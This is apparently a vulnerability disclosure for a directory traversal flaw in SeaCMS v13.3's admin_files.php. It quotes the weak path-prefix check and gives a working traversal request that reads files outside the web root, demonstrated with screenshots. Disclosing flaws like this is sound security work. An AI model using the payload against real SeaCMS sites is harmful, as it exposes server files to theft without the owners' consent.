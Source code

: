   admin_files.php    Directory traversal

### Introduction

SeaCMS v13.3 has a directory traversal vulnerability. This vulnerability is due to the fact that, despite having restrictions on the file directories to be read, these restrictions are still imperfect, allowing an attacker to arbitrarily read the file directories on the server, not just the web directory, including any file directory on the server, which results in traversing all files and can be read based on the file to reach greater harm

SeaCMS 官方网站： [SeaCMS - 开源免费 PHP 电影系统、电影 CMS、视频 CMS、电影 CMS、SEACMS](https://www.seacms.com/)

Click to download

![image-20250402105820409](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021122959.png)

You can see the latest version v13.3



### Vulnerability analysis and exploitation

The vulnerable code is located at : When that parameter is passed, there is no path traversal check, allowing the attacker to construct it themselves, which can be done by passing the following parameters

```
else
{
	if(empty($path)) $path=$dirTemplate; else $path=strtolower($path);
	if(substr($path,0,$dirlen)!=$dirTemplate){
		ShowMsg("只允许编辑附件目录！","admin_files.php");
		exit;
	}
	$flist=getFolderList($path);
	include(sea_ADMIN.'/templets/admin_files.htm');
	exit();
}
```

We can construct a filedir to traverse the directory

```
/4w8vn/admin_files.php?path=../uploads/../../../../../../test
```

#### Exploit POC

We can create a new test file outside the web directory to do this

![image-20250402130845663](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021314783.png)

![image-20250402130907994](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021314622.png)

Then construct the parameters

![image-20250402131116891](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021314491.png)



With it, we can see that the file has been read successfully

Now let's take it a step further and try to see if we can read the rest of the files on Windows

![image-20250402131303050](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021314546.png)

![image-20250402131351013](https://badboy0.oss-cn-beijing.aliyuncs.com/pictures/202504021314612.png)

We can see that the files on the desktop are also read successfully



In summary, an attacker can exploit this vulnerability to read any file on the deployer's computer